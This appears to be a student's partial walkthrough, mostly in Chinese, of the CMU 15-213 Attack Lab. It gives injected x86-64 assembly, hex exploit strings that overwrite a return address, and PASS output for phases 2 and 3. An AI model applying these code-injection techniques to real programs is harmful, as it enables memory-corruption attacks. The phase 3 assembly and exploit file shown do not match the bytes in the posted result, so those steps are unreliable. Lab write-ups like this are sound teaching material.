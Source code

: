```
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55
```
phase_2 到这里也搞定

#### phase_3

按照别人的做法，得到的
p3.s
```
movq $0x59b997fa,%rdi   # mov the cookie string address to parameter
pushq $0x004018fa   #push touch3 address
retq
```
cookie的ａｓｃｉｉ为:
```
0x59b997fa
对应ascii码为35 39 62 39 39 37 66 61

```
然后得到的p3.txt为：
```
48 c7 c7 fa 97 b9 59 68 fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
35 39 62 39 39 37 66 61 78 dc 61 55 00 00 00 00
09 00 00 00 00 00 00 00 94 1f 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
然后：
```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```

暂时做到这里
